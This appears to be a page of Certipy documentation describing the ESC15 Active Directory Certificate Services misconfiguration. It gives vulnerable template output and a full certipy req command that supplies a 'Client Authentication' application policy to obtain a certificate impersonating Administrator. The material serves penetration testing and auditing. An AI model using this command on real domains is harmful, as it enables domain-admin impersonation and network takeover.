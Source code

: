 ### ESC15

ESC15 is when a certificate template has most of the primary conditions for ESC1, including:
- The template permits low-privilege users to enroll.
- The template permits the user to specify an arbitrary SAN.
- The template is using Schema Version 1.

However, the template does not have the 'Client Authentication' EKU. Example output of a vulnerable template would look like the following:

```bash
  6
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : CORP-DC-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Schema Version             : 1
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CORP.COM\Domain Users
                                          CORP.COM\Domain Admins
                                          CORP.COM\Enterprise Admins
                                          CORP.COM\Authenticated Users
      Object Control Permissions
        Owner                           : CORP.COM\Enterprise Admins
        Write Owner Principals          : CORP.COM\Domain Admins
                                          CORP.COM\Enterprise Admins
        Write Dacl Principals           : CORP.COM\Domain Admins
                                          CORP.COM\Enterprise Admins
        Write Property Principals       : CORP.COM\Domain Admins
                                          CORP.COM\Enterprise Admins
    [!] Vulnerabilities
      ESC15                             : 'CORP.COM\\Domain Users' and 'CORP.COM\\Authenticated Users' can enroll, enrollee supplies subject and schema version is 1
```

We can supply arbitrary Application Policies by using the `--application-policies` parameter.

```bash
certipy req -ca CORP-DC-CA -target-ip 192.168.4.178 -u 'user@corp.com' -p 'Password1' -template "WebServer" -upn "Administrator@corp.com" --application-policies 'Client Authentication'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CORP.COM' at '127.0.0.53'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:192.168.4.178[\pipe\cert]
[+] Connected to endpoint: ncacn_np:192.168.4.178[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 32
[*] Got certificate with UPN 'Administrator@corp.com'
[*] Certificate has no object SID
```